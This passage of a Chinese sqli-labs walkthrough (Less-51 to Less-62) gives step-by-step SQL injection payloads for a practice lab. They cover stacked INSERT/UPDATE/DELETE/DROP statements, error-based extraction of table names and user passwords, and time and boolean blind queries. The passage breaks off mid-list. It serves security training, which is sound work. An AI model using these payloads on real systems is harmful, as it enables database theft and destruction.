#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-51/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort` |
| 类型 | **字符型 ORDER BY** + **堆叠注入** |
| 闭合 | 单引号 `'` |
| 关键 API | `mysqli_multi_query()` |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY '$sort'` |
| 与 Less-47/49 差异 | 同为带引号的 ORDER BY；本关支持 `;` 多语句 |
| 与 Less-50 差异 | 50 为数字型堆叠；51 需先 `'` 闭合再 `;` |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users ORDER BY '$sort'";
mysqli_multi_query($con, $sql);
```

注入形态类似：

```sql
ORDER BY '1'; insert into users ... -- '
```

页面多只展示第一条 SELECT 结果，堆叠是否成功以**写库副作用**为准。

#### 解题步骤

**1）确认字符型**

```latex
?sort=1
?sort=1'
?sort=1'--+
```

`1'` 异常、`1'--+` 正常 → 单引号闭合。


**2）堆叠插入**

```latex
?sort=1'; insert into users(id,username,password) values(51,'less51','less51')--+
```

验证：按 id 排序观察新行，或：

```latex
?sort=1 desc
```

查是否出现 `less51`。


**3）建表 / 拷贝数据**

```latex
?sort=1'; create table less51_copy like users--+
?sort=1'; insert into less51_copy select * from users--+
```


**4）报错读数（若有报错回显）**

```latex
?sort=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+

?sort=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+

?sort=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)--+

?sort=1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)--+
```

无报错时改用时间盲注（同 49），或只练堆叠。


**5）其它堆叠（仅限靶场）**

```latex
?sort=1'; update users set password='p51' where username='less51'--+
?sort=1'; delete from users where username='less51'--+
?sort=1'; drop table if exists less51_copy--+
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 形态 | `?sort=1'; 第二条SQL--+` |
| 闭合 | 必须先 `'` 再 `;` |
| 验证 | INSERT/建表，不单靠页面 SELECT |
| 对照 | 50 无引号；51 有引号 |

***

### Less-52：GET · ORDER BY 注入 · 数字型 · 盲注倾向 + 堆叠

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-52/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort` |
| 类型 | **数字型 ORDER BY** + **堆叠** |
| 回显 | 常**无详细 SQL 报错**（偏盲注） |
| 关键 API | `mysqli_multi_query()` |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY $sort` |
| 与 Less-50 差异 | 同为数字型 ORDER BY 堆叠；52 更强调弱报错，读数据靠盲注或只写不读 |
| 与 Less-48 差异 | 48 无堆叠；52 可 `;` 多语句 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users ORDER BY $sort";
mysqli_multi_query($con, $sql);
```

无引号，可直接 `1; insert ...`。报错关闭时，`updatexml` 不一定有可见回显，堆叠写操作仍是最稳验证手段。

#### 解题步骤

**1）确认数字型 ORDER BY**

```latex
?sort=1
?sort=2
?sort=1 desc
```

排序变化即说明注入点有效。


**2）堆叠插入（优先）**

```latex
?sort=1; insert into users(id,username,password) values(52,'less52','less52')--+
```

```latex
?sort=1 desc
```

观察是否出现大 id 的 `less52`，或直接查库。


**3）建表演示**

```latex
?sort=1; create table less52_copy like users--+
?sort=1; insert into less52_copy select * from users--+
```


**4）时间盲注读库（可选）**

无报错时：

```latex
?sort=if(length(database())=8,sleep(3),1)
?sort=if(ascii(substr(database(),1,1))=115,sleep(3),0)
```

有堆叠时不必强依赖延时读数。


**5）其它堆叠（仅限靶场）**

```latex
?sort=1; update users set password='p52' where username='less52'--+
?sort=1; delete from users where username='less52'--+
?sort=1; drop table if exists less52_copy--+
```

练习后用首页 **Setup/resetDB** 恢复。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 形态 | `?sort=1; 第二条SQL--+` |
| 类型 | 数字型，无引号 |
| 读 | 弱报错 → 时间盲注或放弃读、专注写 |
| 写 | 堆叠 INSERT/UPDATE/DELETE/CREATE |
| 对照 | 50 数字堆叠（常有报错可用）；52 数字堆叠 + 偏盲 |

***

### Less-53：GET · ORDER BY 注入 · 字符型 · 盲注倾向 + 堆叠

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-53/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort` |
| 类型 | **字符型 ORDER BY** + **堆叠注入** |
| 闭合 | 单引号 `'` |
| 回显 | 常**无详细 SQL 报错**（偏盲注） |
| 关键 API | `mysqli_multi_query()` |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY '$sort'` |
| 与前后关关系 | 相对 51：同为字符型 ORDER BY 堆叠，本关弱报错；相对 49：同为字符型 ORDER BY 盲注，本关可 `;` 多语句；相对 52：52 无引号，53 需 `'` 闭合 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users ORDER BY '$sort'";
mysqli_multi_query($con, $sql);
```

需先闭合引号再堆叠：

```sql
ORDER BY '1'; insert into users ... -- '
```

页面通常只处理第一条 SELECT 的结果集；后面语句是否执行，以数据是否被写入/修改为准。

#### 解题步骤

**1）确认字符型**

```latex
?sort=1
?sort=1'
?sort=1'--+
```

`1'` 异常、`1'--+` 恢复 → 单引号闭合。


**2）确认弱报错**

```latex
?sort=1' and updatexml(1,concat(0x7e,database()),1)--+
```

若无 XPATH 类回显，读数据改用时间盲注，或本关只练堆叠写操作。


**3）堆叠插入（推荐）**

```latex
?sort=1'; insert into users(id,username,password) values(53,'less53','less53')--+
```

验证：

```latex
?sort=1 desc
```

观察是否出现 `less53`，或直接查库。


**4）建表 / 拷贝**

```latex
?sort=1'; create table less53_copy like users--+
?sort=1'; insert into less53_copy select * from users--+
```


**5）时间盲注读库（可选）**

```latex
?sort=1' and if(length(database())=8,sleep(2),0)--+
?sort=1' and if(ascii(substr(database(),1,1))=115,sleep(2),0)--+
```

注意：ORDER BY 场景下 `sleep` 可能随行数叠加，秒数宜小，避免超时。


**6）其它堆叠（仅限靶场）**

```latex
?sort=1'; update users set password='p53' where username='less53'--+
?sort=1'; delete from users where username='less53'--+
?sort=1'; drop table if exists less53_copy--+
```

练习后可用首页 **Setup/resetDB** 恢复数据。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 形态 | `?sort=1'; 第二条SQL--+` |
| 闭合 | 必须 `'`，再 `;` |
| 读 | 弱报错 → 时间盲注（控制 sleep） |
| 写 | 堆叠 INSERT/UPDATE/DELETE/CREATE |
| 对照 | 51 字符堆叠（常有报错）；49 字符盲注无堆叠；52 数字盲注+堆叠 |

***

### Challenges  挑战

### Less-54：GET · Challenges · 单引号字符型 · 限次联合查询

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-54/?id=1` |
| 注入方式 | GET |
| 类型 | **字符型（单引号）** 联合查询 |
| 尝试次数 | 约 **10 次**（页面会显示 attempts） |
| 目标库 | `challenges`（不是固定的 `security.users`） |
| 目标 | 在次数用尽前取出随机表中的 **secret key**，并在页面提交 |
| 重置机制 | 次数超限或点 Reset 后，**表名、列名、数据会随机刷新** |

#### 源码 / 机制（理解用）

查询仍类似：

```sql
SELECT * FROM security.users WHERE id='$id' LIMIT 0,1
```

但挑战数据在 `challenges` 库的随机表中。每次重置都会换表名、secret 列名等，因此**不能背固定表名**，必须现场从 `information_schema` 查。

#### 解题步骤（控制在 10 次内）

建议顺序固定，每步一次请求：

**1）确认闭合（可与列数合并，省次数）**

```latex
?id=1'
?id=1'--+
```

单引号字符型。


**2）列数与回显位**

```latex
?id=-1' union select 1,2,3--+
```

观察 2、3 哪一列回显（常见 2 或 3）。


**3）爆 **`challenges`** 下的表名**

```latex
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges'--+
```

或 `table_schema=database()`（若当前库已是 challenges，以页面提示为准）。

记下返回的**随机表名**（如 `f4kp5pe0zk`）。


**4）爆列名**

把 `表名` 换成上一步结果：

```latex
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='challenges' and table_name='随机表名'--+
```

常见列类似：`id`、`sessid`、`secret_xxxx`、`tryy` 等，**secret 列名带随机后缀**。


**5）取 secret key**

```latex
?id=-1' union select 1,secret_列名,3 from challenges.随机表名--+
```

或：

```latex
?id=-1' union select 1,group_concat(secret_列名),3 from 随机表名--+
```


**6）提交密钥**

把回显的密钥填进页面的 secret 输入框，提交。成功会有 Congratulations 类提示。


#### 省次数技巧

| 技巧 | 说明 |
| --- | --- |
| 合并查询 | 一次 `union` 里用 `concat` 同时带出表名+列名（注意长度） |
| 少做无用探测 | 闭合、列数尽量一次搞定 |
| 写对库名 | 目标是 `challenges`，不要死查 `security.users` 的密码 |
| 超限后 | Reset 后表名全变，需从头查，不要用旧表名 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `'` |
| 手法 | 标准联合查询 |
| 关键 | 限次 + 随机表/列 |
| 目标 | `challenges` 随机表中的 secret 列 |

***

### Less-55：GET · Challenges · 括号闭合 · 限次联合查询

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-55/?id=1` |
| 注入方式 | GET |
| 类型 | **数字/括号型**（常见闭合 `)`） |
| 尝试次数 | 约 **14 次**（以页面提示为准） |
| 目标库 | `challenges`，随机表名/列名 |
| 目标 | 限次内取出 secret key 并提交 |
| 与 Less-54 差异 | 闭合从 `'` 变为 `)`（源码多为 `WHERE id=($id)`） |

#### 源码逻辑（理解用）

```sql
SELECT * FROM security.users WHERE id=($id) LIMIT 0,1
```

`$id` 在括号内，无外层单引号时，用 `)` 闭合括号再 `union`；若环境带引号，以本地报错为准（多数 writeup 为 `)`）。

#### 解题步骤

**1）确认闭合**

```latex
?id=1'
?id=1)
?id=1)--+
```

`1)--+` 正常、单引号无效 → 按 `)` 构造。


**2）回显位**

```latex
?id=-1) union select 1,2,3--+
```


**3）爆表名**

```latex
?id=-1) union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges'--+
```


**4）爆列名**

```latex
?id=-1) union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='challenges' and table_name='随机表名'--+
```


**5）取 secret**

```latex
?id=-1) union select 1,secret_列名,3 from challenges.随机表名--+
```


**6）提交密钥**

填入页面验证框，完成挑战。


#### 省次数与注意

| 点 | 说明 |
| --- | --- |
| 次数 | 比 54 略宽（约 14 次），仍应一次一步 |
| 闭合 | payload 统一用 `)`，不要写成 `'` |
| 随机性 | 每次 Reset 后表名、secret 列名都要重查 |
| 库名 | 固定盯 `challenges` |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `)` |
| 手法 | 联合查询，流程同 54 |
| 目标 | 随机表中的 secret key |
| 对照 | 54：`'` + 约 10 次；55：`)` + 约 14 次 |

***

### Less-56：GET · Challenges · 闭合 `')` · 限次联合查询

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-56/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `')`（单引号 + 右括号） |
| 尝试次数 | 约 **14 次**（以页面为准） |
| 目标库 | `challenges`，表名/列名随机 |
| 目标 | 限次内取出 secret key 并提交 |
| 与前后关 | 54：`'`；55：`)`；56：`')` |

#### 源码逻辑（理解用）

类似：

```sql
SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1
```

需用 `')` 结束字符串和括号，再 `union`。挑战数据在 `challenges` 随机表中。

#### 解题步骤

**1）确认闭合**

```latex
?id=1'
?id=1')
?id=1')--+
```

`1')--+` 正常 → 闭合为 `')`。


**2）回显位**

```latex
?id=-1') union select 1,2,3--+
```


**3）爆表名**

```latex
?id=-1') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges'--+
```

或 `table_schema=database()`（以当前库提示为准）。


**4）爆列名**

```latex
?id=-1') union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='challenges' and table_name='随机表名'--+
```

关注带 `secret_` 前缀的列。


**5）取 secret key**

```latex
?id=-1') union select 1,secret_列名,3 from challenges.随机表名--+
```


**6）提交密钥**

填入页面验证框，完成挑战。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `')` |
| 手法 | 联合查询，流程同 54/55 |
| 目标 | `challenges` 随机表的 secret |
| 次数 | 控制在限额内，少做无效探测 |

***

### Less-57：GET · Challenges · 双引号 `"` · 限次联合查询

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-57/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `"`（双引号） |
| 尝试次数 | 约 **14 次**（以页面为准） |
| 目标库 | `challenges`，表名/列名随机 |
| 目标 | 限次内取出 secret key 并提交 |
| 与前后关 | 仅闭合改为双引号，流程不变 |

#### 源码逻辑（理解用）

类似：

```sql
SELECT * FROM security.users WHERE id="$id" LIMIT 0,1
```

用 `"` 闭合后联合查询；目标仍在 `challenges` 随机表。

#### 解题步骤

**1）确认闭合**

```latex
?id=1'
?id=1"
?id=1"--+
```

`1"--+` 正常 → 双引号字符型。


**2）回显位**

```latex
?id=-1" union select 1,2,3--+
```


**3）爆表名**

```latex
?id=-1" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges'--+
```


**4）爆列名**

```latex
?id=-1" union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='challenges' and table_name='随机表名'--+
```


**5）取 secret key**

```latex
?id=-1" union select 1,secret_列名,3 from challenges.随机表名--+
```


**6）提交密钥**

填入页面完成挑战。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `"` |
| 手法 | 联合查询 |
| 目标 | 随机表中的 secret 列 |
| 注意 | Reset 后表名、列名全部重查 |

***

### Less-58：GET · Challenges · 单引号 · 报错注入（限次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-58/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型（单引号） |
| 主手法 | **报错注入**（`updatexml` / `extractvalue`） |
| 尝试次数 | 更紧（常见约 **5～10 次**，以页面为准） |
| 目标库 | `challenges`，表名/列名随机 |
| 目标 | 限次内取出 secret key 并提交 |
| 与 54～57 差异 | 联合查询往往**无业务数据回显**，改用报错把结果打进错误信息 |

#### 源码逻辑（理解用）

仍为类似 `WHERE id='$id'` 的拼接，但页面不把 `UNION` 的列内容正常展示出来（或查询结构导致联合不好用）。存在 **MySQL 报错回显**，适合 XPATH 类报错函数。挑战数据仍在 `challenges` 随机表。

#### 解题步骤

**1）确认闭合与报错可用**

```latex
?id=1'
?id=1'--+
```


单引号字符型。再试：

```latex
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

错误信息中出现 `~challenges~` 或库名 → 报错注入成立。


**2）爆表名（控制次数，一次一步）**

```latex
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

过长时可：

```latex
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='challenges' limit 0,1),0x7e),1)--+
```


**3）爆列名**

```latex
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='随机表名'),0x7e),1)--+
```

记下 `secret_xxxx` 列名。


**4）取 secret key**

```latex
?id=1' and updatexml(1,concat(0x7e,(select secret_列名 from 随机表名 limit 0,1),0x7e),1)--+
```

或：

```latex
?id=1' and extractvalue(1,concat(0x7e,(select secret_列名 from 随机表名 limit 0,1)))--+
```


**5）提交密钥**

把错误信息中 `~...~` 内的密钥填入页面验证。


#### 省次数技巧

| 技巧 | 说明 |
| --- | --- |
| 少用 UNION 试探 | 本关以报错为主，避免浪费次数 |
| `limit` 分段 | `group_concat` 被截断时按行取 |
| 写对库名 | `challenges` / `database()` |
| 超限 | Reset 后表名、列名全变，需重查 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `'` |
| 手法 | 报错注入，不是联合回显 |
| 目标 | 随机表中的 secret 列 |
| 次数 | 比 54～57 更紧，步骤要精简 |

***

### Less-59：GET · Challenges · 数字型 · 报错注入（限次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-59/?id=1` |
| 注入方式 | GET |
| 类型 | **数字型**（无引号包裹 `$id`） |
| 主手法 | **报错注入** |
| 尝试次数 | 约 **5～10 次**（以页面为准） |
| 目标库 | `challenges`，表名/列名随机 |
| 目标 | 限次内取出 secret key 并提交 |
| 与 Less-58 差异 | 无需 `'` 闭合，payload 直接接在数字后 |

#### 源码逻辑（理解用）

```sql
SELECT * FROM security.users WHERE id=$id LIMIT 0,1
```

整型注入 + 报错回显；挑战数据仍在 `challenges` 随机表。

#### 解题步骤

**1）确认数字型**

```latex
?id=1'
?id=1 and 1=1
?id=1 and 1=2
```

不必依赖引号；`and 1=2` 可导致无数据。


**2）报错确认**

```latex
?id=1 and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

错误中出现库名即可。


**3）爆表名**

```latex
?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```


**4）爆列名**

```latex
?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='随机表名'),0x7e),1)--+
```


**5）取 secret key**

```latex
?id=1 and updatexml(1,concat(0x7e,(select secret_列名 from 随机表名 limit 0,1),0x7e),1)--+
```


**6）提交密钥**

填入页面完成挑战。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 类型 | 数字型，无引号 |
| 手法 | `and updatexml(...)` / `extractvalue` |
| 目标 | `challenges` 随机表 secret |
| 对照 | 58 为 `' ` + 报错；59 为整型 + 报错 |

***

### Less-60：GET · Challenges · 闭合 `")` · 报错注入（限次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-60/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `")`（双引号 + 右括号） |
| 主手法 | **报错注入**（`updatexml` / `extractvalue`） |
| 尝试次数 | 约 **5～10 次**（以页面为准） |
| 目标库 | `challenges`，表名/列名随机 |
| 目标 | 限次内取出 secret key 并提交 |
| 与前后关 | 58：`'` 报错；59：数字报错；60：`")` 报错 |

#### 源码逻辑（理解用）

类似：

```sql
SELECT * FROM security.users WHERE id=("$id") LIMIT 0,1
```

联合往往无业务回显，依赖报错把结果打到页面；挑战数据在 `challenges` 随机表。

#### 解题步骤

**1）确认闭合**

```latex
?id=1'
?id=1"
?id=1")
?id=1")--+
```

`1")--+` 正常 → 闭合为 `")`。


**2）报错确认**

```latex
?id=1") and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

错误信息中出现库名（多为 `challenges`）即可。


**3）爆表名**

```latex
?id=1") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

过长时用 `limit 0,1` 逐表取。


**4）爆列名**

```latex
?id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='随机表名'),0x7e),1)--+
```

记下 `secret_xxxx`。


**5）取 secret key**

```latex
?id=1") and updatexml(1,concat(0x7e,(select secret_列名 from 随机表名 limit 0,1),0x7e),1)--+
```

或：

```latex
?id=1") and extractvalue(1,concat(0x7e,(select secret_列名 from 随机表名 limit 0,1)))--+
```


**6）提交密钥**

将错误信息中的密钥填入页面验证框。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `")` |
| 手法 | 报错注入 |
| 目标 | 随机表 secret 列 |
| 次数 | 精简步骤，避免无效探测 |

***

### Less-61：GET · Challenges · 闭合 `'))` · 报错注入（限次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-61/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `'))`（单引号 + 双右括号） |
| 主手法 | **报错注入** |
| 尝试次数 | 约 **5～10 次**（以页面为准） |
| 目标库 | `challenges`，表名/列名随机 |
| 目标 | 限次内取出 secret key 并提交 |
| 与前后关 | 多一层括号，常见于 `WHERE id=(('$id'))` 一类写法 |

#### 源码逻辑（理解用）

类似：

```sql
SELECT * FROM security.users WHERE id=(('$id')) LIMIT 0,1
```

需 `'))` 才能正确闭合；其余与 58～60 相同：报错取 `challenges` 随机表中的 secret。

#### 解题步骤

**1）确认闭合**

```latex
?id=1'
?id=1')
?id=1'))
?id=1'))--+
```

`1'))--+` 正常 → 闭合为 `'))`。


**2）报错确认**

```latex
?id=1')) and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```


**3）爆表名**

```latex
?id=1')) and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```


**4）爆列名**

```latex
?id=1')) and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='随机表名'),0x7e),1)--+
```


**5）取 secret key**

```latex
?id=1')) and updatexml(1,concat(0x7e,(select secret_列名 from 随机表名 limit 0,1),0x7e),1)--+
```


**6）提交密钥**

填入页面完成挑战。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `'))`（两层右括号） |
| 手法 | 报错注入 |
| 目标 | `challenges` 随机表 secret |
| 注意 | 只写 `')` 往往不够，必须 `'))` |

***

### Less-62：GET · Challenges · 闭合 `')` · 布尔盲注（约 130 次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-62/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `')` |
| 主手法 | **布尔盲注**（无联合回显、无报错回显） |
| 尝试次数 | 约 **130 次** |
| 目标库 | `challenges`，表名/列名/密钥随机 |
| 目标 | 限次内猜出 secret key 并提交 |

#### 源码逻辑（理解用）

类似 `WHERE id=('$id')`。页面只有「有数据 / 无数据」两类表现，没有 `UNION` 列回显，也没有 `updatexml` 错误内容，只能根据真假页逐条件推断。

#### 解题步骤

**1）确认闭合与真假**

```latex
?id=1') and 1=1--+
?id=1') and 1=2--+
```

前者正常、后者异常 → 布尔盲注可用，闭合为 `')`。


**2）猜库名长度**

```latex
?id=1') and length(database())>1--+
?id=1') and length(database())>2--+
?id=1') and length(database())>3--+
...
?id=1') and length(database())>9--+
?id=1') and length(database())>10--+

?id=1') and length(database())=10--+
```

有此可得库名的长度为 10。


**逐字符猜库名（建议二分 ASCII）**

```latex
第一个字符
?id=1') and ascii(substr(database(),1,1))>100--+
?id=1') and ascii(substr(database(),1,1))>50--+
?id=1') and ascii(substr(database(),1,1))>75--+
?id=1') and ascii(substr(database(),1,1))>95--+
?id=1') and ascii(substr(database(),1,1))>98--+
?id=1') and ascii(substr(database(),1,1))>99--+
?id=1') and ascii(substr(database(),1,1))=99--+

第二个字符
?id=1') and ascii(substr(database(),2,1))>100--+
?id=1') and ascii(substr(database(),2,1))>115--+
?id=1') and ascii(substr(database(),2,1))>107--+
?id=1') and ascii(substr(database(),2,1))>105--+
?id=1') and ascii(substr(database(),2,1))>103--+
?id=1') and ascii(substr(database(),2,1))>104--+
?id=1') and ascii(substr(database(),2,1))=104--+

第三个字符
?id=1') and ascii(substr(database(),3,1))>100--+
?id=1') and ascii(substr(database(),3,1))>50--+
?id=1') and ascii(substr(database(),3,1))>75--+
?id=1') and ascii(substr(database(),3,1))>85--+
?id=1') and ascii(substr(database(),3,1))>95--+
?id=1') and ascii(substr(database(),3,1))>98--+
?id=1') and ascii(substr(database(),3,1))>97--+
?id=1') and ascii(substr(database(),3,1))=97--+

第四个字符
?id=1') and ascii(substr(database(),4,1))>100--+
?id=1') and ascii(substr(database(),4,1))>115--+
?id=1') and ascii(substr(database(),4,1))>110--+
?id=1') and ascii(substr(database(),4,1))>105--+
?id=1') and ascii(substr(database(),4,1))>108--+
?id=1') and ascii(substr(database(),4,1))>107--+
?id=1') and ascii(substr(database(),4,1))=108--+

第五个字符
?id=1') and ascii(substr(database(),5,1))>100--+
?id=1') and ascii(substr(database(),5,1))>115--+
?id=1') and ascii(substr(database(),5,1))>110--+
?id=1') and ascii(substr(database(),5,1))>105--+
?id=1') and ascii(substr(database(),5,1))>108--+
?id=1') and ascii(substr(database(),5,1))>107--+
?id=1') and ascii(substr(database(),5,1))=108--+

第六个字符
?id=1') and ascii(substr(database(),6,1))>100--+
?id=1') and ascii(substr(database(),6,1))>115--+
?id=1') and ascii(substr(database(),6,1))>110--+
?id=1') and ascii(substr(database(),6,1))>105--+
?id=1') and ascii(substr(database(),6,1))>103--+
?id=1') and ascii(substr(database(),6,1))>103--+
?id=1') and ascii(substr(database(),6,1))>102--+
?id=1') and ascii(substr(database(),6,1))>101--+

第七个字符
?id=1') and ascii(substr(database(),7,1))>100--+
?id=1') and ascii(substr(database(),7,1))>115--+
?id=1') and ascii(substr(database(),7,1))>110--+
?id=1') and ascii(substr(database(),7,1))>105--+
?id=1') and ascii(substr(database(),7,1))>108--+
?id=1') and ascii(substr(database(),7,1))>109--+
?id=1') and ascii(substr(database(),7,1))=110--+

第八个字符
?id=1') and ascii(substr(database(),8,1))>100--+
?id=1') and ascii(substr(database(),8,1))>115--+
?id=1') and ascii(substr(database(),8,1))>110--+
?id=1') and ascii(substr(database(),8,1))>105--+
?id=1') and ascii(substr(database(),8,1))>103--+
?id=1') and ascii(substr(database(),8,1))>102--+
?id=1') and ascii(substr(database(),8,1))=103--+

第九个字符
?id=1') and ascii(substr(database(),9,1))>100--+
?id=1') and ascii(substr(database(),9,1))>115--+
?id=1') and ascii(substr(database(),9,1))>110--+
?id=1') and ascii(substr(database(),9,1))>105--+
?id=1') and ascii(substr(database(),9,1))>103--+
?id=1') and ascii(substr(database(),9,1))>103--+
?id=1') and ascii(substr(database(),9,1))>102--+
?id=1') and ascii(substr(database(),9,1))>101--+

第十个字符
?id=1') and ascii(substr(database(),10,1))>100--+
?id=1') and ascii(substr(database(),10,1))>115--+
?id=1') and ascii(substr(database(),10,1))>110--+
?id=1') and ascii(substr(database(),10,1))>113--+
?id=1') and ascii(substr(database(),10,1))>114--+
?id=1') and ascii(substr(database(),10,1))=115--+
```

由此可得完整库名是“challenges“。


**3）表名长度（**`challenges`\*\* 下第一张表）\*\*

挑战系列每个库只有 1 张随机表，先用计数确认，再猜长度：

```latex
?id=1') and (select count(table_name) from information_schema.tables where table_schema='challenges')=1--+
```


```latex
?id=1') and length((select table_name from information_schema.tables where table_schema='challenges' limit 0,1))=10--+
```

常见随机表名长度约 10，以本地真假为准。


**4）逐字符猜表名（建议二分 ASCII）**

```latex
第一个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>115--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>110--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>105--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>108--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>107--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>106--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))=106--+


第二个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>50--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>65--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>60--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>55--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>58--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>57--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>56--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))=57--+

第三个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>115--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>110--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>105--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>108--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>107--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>106--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))=106--+


第四个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),4,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),4,1))>115--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),4,1))>110--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),4,1))>105--+
